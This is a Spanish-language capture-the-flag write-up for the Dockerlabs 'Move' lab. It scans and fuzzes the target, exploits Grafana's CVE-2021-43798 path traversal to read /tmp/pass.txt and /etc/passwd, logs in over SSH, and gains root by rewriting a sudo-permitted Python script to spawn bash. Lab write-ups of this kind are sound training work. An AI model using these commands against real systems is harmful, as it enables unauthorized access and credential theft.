








# Writeup: Move &mdash; Dockerlabs
- **Dificultad:** Fácil
- **Plataforma:** Dockerlabs
- **IP Objetivo:** 172.17.0.2
- **Técnicas Clave:** Enumeración de Puertos, Fuzzing Web, Explotación Grafana ```CVE-2021-43798```, SSH, Escalada de Privilegios

___
### Reconocimiento y Escaneo de Puertos
- **Escaneo de red con Nmap:**

      $ sudo nmap -sV 172.17.0.2 -n -Pn

    

#### Resultados:
Se detectaron los puertos```21/tcp```,```22/tcp```,```80/tcp``` y ```3000/tcp```.

___
### Enumeración Web y Fuzzing
- **Fuzzing de rutas con Gobuster:**

      $ gobuster dir -u 172.17.0.2 -w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories-lowercase.txt -x php,html,txt,sh,py,bak,zip

    

#### Resultados:
  - **/index.html** &mdash; (status: ```200``` | Size: ```10701```)
  - **/maintenance.html** &mdash; (status: ```200``` | Size: ```63```)
  - **/server-status** &mdash; (status: ```403``` | Size: ```275```)

#### Inspección inicial:
- Al revisar ```maintenance.html``` mediante ```curl```:

      $ curl -s http://172.17.0.2/maintenance.html

    

- El contenido reveló el mensaje: *"Website under maintenance, access is in /tmp/pass.txt"*.

___
### Explotación
- Al inspeccionar el puerto ```3000/tcp``` se identificó un panel de inicio de sesión de **Grafana v8.3.0**.

  

- No se realizó ningún intento para acceder con credenciales aleatorias y/o por defecto.
- **Búsqueda del exploit:** Con ```searchsploit``` se localizó una vulnerabilidad crítica de lectura arbitraria de archivos (Directory Traversal) catalogada como **CVE-2021-43798:**

  

- Posteriormente se descargó el archivo ```50581.py``` con ```searchsploit -m multiple/webapps/50581.py``` y se ejecutó ```python3 50581.py -H http://172.17.0.2:3000```

  

- **Extracción de datos:**
      
  - Se obtuvo la contraseña desde ```/tmp/pass.txt```:```t9sH76gpQ82UFeZ3GXZS```
  - Se analizó ```/etc/passwd``` para identificar al usuario del sistema (```freddy```).

___
### Acceso Inicial 
- Con las credenciales obtenidas se estableció una conexión remota vía SSH:

      $ ssh freddy@172.17.0.2

    

___
### Escalada de Privilegios
- Con la sesión iniciada bajo el usuario ```freddy```, se listaron los privilegios asignados con ```sudo -l```:

    

- Se identificó la regla: ```(ALL) NOPASSWD: /usr/bin/python3 /opt/maintenance.py```
- Al contar con permisos de escritura sobre ```/opt/maintenance.py```, se modificó el contenido para invocar una shell interactiva:

      $ echo 'import os; os.system("/bin/bash")' > /opt/maintenance.py

- Por último se ejecutó ```sudo /usr/bin/python3 /opt/maintenance.py``` y se confirmó el UID mediante ```id``` y ```whoami``` obteniendo acceso como ```root```, concluyendo así con la máquina.
